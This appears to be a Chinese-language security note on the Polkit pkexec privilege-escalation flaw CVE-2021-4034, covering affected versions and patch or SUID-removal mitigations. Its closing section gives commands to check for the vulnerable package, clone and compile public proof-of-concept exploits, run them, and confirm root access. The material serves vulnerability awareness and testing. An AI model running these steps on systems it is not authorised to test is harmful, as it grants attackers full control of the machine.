 ## **Polkit提权(CVE-2021-4034)**

pkexec是Polkit框架的一部分，它允许授权的非特权用户执行需要特权的命令。这个漏洞是由于pkexec在处理命令行参数时存在缺陷，攻击者可以通过操纵环境变量来诱导pkexec执行任意代码，从而获得root权限。


影响版本：
2009年5月至今发布的所有 Polkit 版本 注：Polkit（policykit）预装在CentOS、Ubuntu、Debian、Redhat、Fedora、Gentoo、Mageia等多个Linux发行版上，所有存在Polkit的Linux系统均受影响。


修复建议：
* **官方升级**: 官方已经发布了补丁来修复这个漏洞，建议用户及时安装补丁进行防护。
* **临时防护措施**: 如果补丁还未发布或暂时无法安装，可以通过移除pkexec的SUID位来进行临时防护，例如使用命令`chmod 0755 /usr/bin/pkexec`。


## **利用**
ubantu判断：dpkg -l policykit-1  （显示有版本启用，则大概率存在漏洞）
centos判断：rpm -qa polkit
利用：
```
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034/
make
./cve-2021-4034
```
^
利用：
exp源文件经过gcc编译，如没有gcc自行下载，此测试文件来自：https://github.com/arthepsy/CVE-2021-4034
输入：gcc cve-2021-4034-poc.c -o exp 
得到exp文件：./exp 即可执行
验证id，得到当前权限为root
